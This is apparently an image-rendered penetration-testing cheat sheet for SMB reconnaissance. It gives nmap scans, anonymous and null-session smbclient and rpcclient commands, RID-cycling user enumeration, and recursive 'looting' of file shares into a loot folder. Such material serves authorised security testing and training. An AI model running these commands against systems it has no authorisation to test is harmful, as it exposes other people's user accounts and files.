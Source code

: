 1) Discovery and quick fingerprinting

```
# Fast port check
nmap -p 139,445 -Pn -n --min-rate 5000 -oA nmap/${TARGET}_smb_quick $TARGET

# Service/OS/scripts
nmap -p 139,445 -sV -sC -O -oA nmap/${TARGET}_smb_full $TARGET

# Focused SMB scripts (safe)
nmap -p445 --script "smb-os-discovery,smb-security-mode,smb-protocols,smb2-security-mode,smb2-capabilities,smb2-time" \
    -oN nmap/${TARGET}_smb_enum.nmap $TARGET
```

2) Anonymous/null session checks

```
# List shares anonymously
smbclient -L "//$TARGET" -N

# Try forcing a protocol version if negotiation fails (examples)
smbclient -L "//$TARGET" -N -m SMB2
smbclient -L "//$TARGET" -N -m NT1   # SMB1/NT1 (older systems)

# Null session to MS-RPC (useful on older or misconfigured hosts)
rpcclient -U "" -N $TARGET
# Inside rpcclient (type these):
#   srvinfo
#   enumdomains
#   enumdomusers
#   enumdomgroups
#   queryuser 0x3e8      # example RID; iterate RIDs or use lookupsid
#   netshareenumall
#   lsaquery
```

3) Enumerate users with lookupsid/enum4linux

```
# SID brute (RID cycling) to enumerate users
lookupsid.py $TARGET | tee loot/${TARGET}_lookupsid.txt

# Broad enumeration (classic)
enum4linux -a $TARGET | tee loot/${TARGET}_e4l.txt

# enum4linux-ng alternative (often cleaner)
enum4linux-ng -A $TARGET | tee loot/${TARGET}_e4lng.txt
```

4) Share access and looting

```
# Connect to a discovered share anonymously
smbclient "//${TARGET}/SHARE" -N

# With credentials (DOMAIN optional; specify as DOMAIN/USER%PASS or -U 'USER' -W 'DOMAIN')
smbclient "//${TARGET}/SHARE" -U "${DOMAIN}/${USER}%${PASS}"

# Non-interactive, recursive download (create local dir first)
mkdir -p loot/${TARGET}_SHARE
smbclient "//${TARGET}/SHARE" -U "${DOMAIN}/${USER}%${PASS}" \
  -c "recurse ON; prompt OFF; ls; mget *" \
  | tee loot/${TARGET}_SHARE_ls.txt

# Search for juicy files by name from client side (smbclient pattern match via smbmap is often easier)
# Use smbmap for regex/recursive listing and permissions mapping
```